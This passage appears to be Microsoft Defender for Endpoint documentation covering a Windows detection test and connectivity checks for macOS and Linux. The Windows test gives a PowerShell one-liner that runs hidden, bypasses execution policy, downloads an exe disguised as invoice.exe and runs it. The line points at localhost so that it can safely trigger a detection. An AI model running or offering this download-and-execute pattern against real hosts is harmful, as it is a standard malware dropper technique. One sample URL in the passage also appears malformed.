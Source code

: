 ### PowerShell detection test
1. On the Windows device, create a folder: `C:\test-MDATP-test`.

2. Open Command Prompt as an administrator.

3. In the Command Prompt window, run the following PowerShell command:

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

After the command runs, the Command Prompt window closes automatically. If successful, the detection test is marked as completed.

For macOS and Linux, you can use the following methods:

- MDATP connectivity tests
- Tracking with advanced hunting in Microsoft Defender XDR
- Run tests to confirm connectivity with Defender for Endpoint services

### MDATP connectivity test (macOS and Linux)

Run `mdatp health -details features ` to confirm simplified_connectivity: "enabled".

Run `mdatp health -details edr` to confirm `edr_partner_geo_location` is available. The value should be `GW_<geo>` where 'geo' is your tenant's geo-location.

Run mdatp connectivity test. Ensure the streamlined URL pattern is present. You should expect two for '\storage', one for '\mdav', one for '\xplat', and one for '/packages'.

For example: `https:mdav.us.endpoint.security.microsoft/com/storage`

<a name='tracking-with-advanced-hunting-in-microsoft-365-defender'></a>

### Tracking with advanced hunting in Microsoft Defender XDR

Follow the same instructions as for Windows.

### Use Defender for Endpoint Client Analyzer (cross-platform) to validate connectivity for newly migrated endpoints

Download and run the client analyzer for macOS or Linux. For more information, see [Download and run the client analyzer](download-client-analyzer.md).

1. Run `mdeclientanalyzer.cmd -o <path to cmd file>` from within the MDEClientAnalyzer folder. The command uses parameters from the onboarding package to test connectivity.

2.	Run `mdeclientanalyzer.cmd -g <GW_US, GW_UK, GW_EU>` (where parameter is of GW_US, GW_EU, GW_UK). GW refers to the streamlined option. Run with applicable tenant geo.
